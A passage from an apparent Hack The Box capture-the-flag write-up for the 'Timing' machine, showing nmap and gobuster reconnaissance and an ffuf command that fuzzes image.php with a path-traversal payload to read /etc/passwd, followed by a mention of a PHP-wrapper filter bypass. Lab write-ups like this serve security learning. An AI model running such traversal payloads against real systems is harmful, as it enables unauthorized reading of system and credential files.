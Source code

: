 ```
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Dec 30 21:39:22 2021 -- 1 IP address (1 host up) scanned in 17.81 seconds
```

You can see it flashy now lol so without wasting to much of time let start diggng in make sure to add `10.10.11.135 timing.htb` to your host file.

![image](https://user-images.githubusercontent.com/69868171/148071354-ee14869b-0b8d-455c-80cc-717699aa0645.png)

Simple WebApp interesting and we have a login page before coming back to try some default credentials let keep gobuster running in the background.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/HTB/10.10.11.135]
└─$ gobuster dir -u http://timing.htb/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt,php,html,bak,sh -o gobuster.req
/images               (Status: 301) [Size: 309] [--> http://timing.htb/images/]
/index.php            (Status: 302) [Size: 0] [--> ./login.php]
/login.php            (Status: 200) [Size: 5609]
/profile.php          (Status: 302) [Size: 0] [--> ./login.php]
/image.php            (Status: 200) [Size: 0]
/header.php           (Status: 302) [Size: 0] [--> ./login.php]
/footer.php           (Status: 200) [Size: 3937]
/upload.php           (Status: 302) [Size: 0] [--> ./login.php]
```
Now it getting interesting but i notice something strange you can see it also right `image.php` size seems empty possible `LFI or RCE` let confirm it.

![image](https://user-images.githubusercontent.com/69868171/148072267-ba66038e-7acb-4371-87d2-915c1ffe7662.png)

Yes i know it blank let burst for some parametes.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/HTB/10.10.11.135]
└─$ ffuf -c -ic -r -u 'http://timing.htb/image.php?FUZZ=../../../../../../../etc/passwd' -w /usr/share/seclists/Discovery/Web-Content/common.txt -fs  0
img                     [Status: 200, Size: 25, Words: 3, Lines: 1]
:: Progress: [4681/4681] :: Job [1/1] :: 93 req/sec :: Duration: [0:00:49] :: Errors: 0 ::
```
Boom we found one parameter i told you it `LFI` let confirm it now by reading the passwd file from the system.

![image](https://user-images.githubusercontent.com/69868171/148073040-6024c8e2-a2ea-45a6-a75e-c311dcc0b4fc.png)

But when i try to i got blocked which is interesting let try some bypass.

![image](https://user-images.githubusercontent.com/69868171/148073393-84198eeb-d355-4035-a238-6dee5bfdcc9e.png)

Boom the php wrapper worked and we got the passwd file let try to decode it.

![image](https://user-images.githubusercontent.com/69868171/148073558-74db3072-41cf-47fd-89f0-07407e685208.png)

